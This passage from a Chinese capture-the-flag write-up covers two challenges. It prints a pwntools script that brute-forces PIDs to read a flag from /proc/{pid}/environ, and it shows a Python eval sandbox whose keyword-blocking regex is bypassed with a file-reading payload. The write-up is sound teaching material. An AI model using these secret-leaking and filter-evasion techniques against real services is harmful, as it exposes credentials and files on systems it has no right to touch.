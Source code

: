 根据代码内容我们可以知道，被隐藏的内容就是 Flag。

回到提供的环境来，这个模拟 shell 除了彩蛋提供且仅提供了一个工具：cat。其功能是打印一个文件的内容到屏幕上。这让我们很容易想到类 Unix 操作系统的一个设计特点：[万物皆文件](https://en.wikipedia.org/wiki/Everything_is_a_file)。既然我们需要的东西是一个进程的环境变量，那我们能不能通过一个文件读取到呢？

答案显然是可以的，那就是 [`/proc` 虚拟文件系统](https://www.kernel.org/doc/html/latest/filesystems/proc.html)。关于这一文件系统的功能多样这里不再赘述，只陈述关键点：`/proc/{pid}/environ` 是 PID 所指代进程的环境变量。这也照应上了为什么前面需要随机次数地运行 `/bin/true`：一个容器内的初始 PID 是从 1 开始的，直接设置环境变量就失去了本题考查的另一重要方面：pwntools 脚本编写。

在这里附上出题人的解题代码：

```python
import pwn

r = pwn.connect("localhost", 44017)

r.recvuntil(b"(yourcat)")
for i in range(100, 1100):
    print(f"trying pid {i}")
    r.sendline(f"cat /proc/{i}/environ")
    recv = r.recvuntil("(yourcat)").decode()
    if "CATSFLAG" in recv:
        print(recv)
        break
r.close()
```

## 狗子(6) 星尘之猫 / 500

出题人：Koito Coco

题目路径：[pyreader](../Challenges/Misc/pyreader/)

一个简单的 pyjail（批注：实际上并不是传统意义的 Pyjail。传统意义上 Pyjail 是利用 Python 的特性 RCE，但本体仅利用 Python 的特性读取文件。）

核心部分代码如下

```python
pattern = re.compile(r"(?:read)|(?:pattern)|(?:write)|(?:dir)|(?:vars)|(?:locals)|(?:globals)|(?:attr)|(?:sys)|(?:import)|(?:eval)|(?:exec)|(?:input)|(?:os)|(?:help)|(?:breakpoint)|(?:[\.\\_=])|[^\x00-\xff]")
while True:
    try:
        s = self.recv(">> ")
        if len(s) > 35 or pattern.search(s):
            self.send("<< [ === ACCESS DENIED === ]")
            continue
        self.send(f"<< {eval(s)}")
    except KeyboardInterrupt:
        break
    except:
        self.send("<< [ === !!!ERROR!!! === ]")
```

应该是不能rce得到shell的，所以尝试直接读取文件，发现`open`函数没有被ban，但是`read`函数是ban掉的

这里涉及到一个小知识：`open`函数返回的是一个可迭代对象，可以直接展开成列表

因此得到payload

```python
[*open("flag"+chr(46)+"txt")]
```
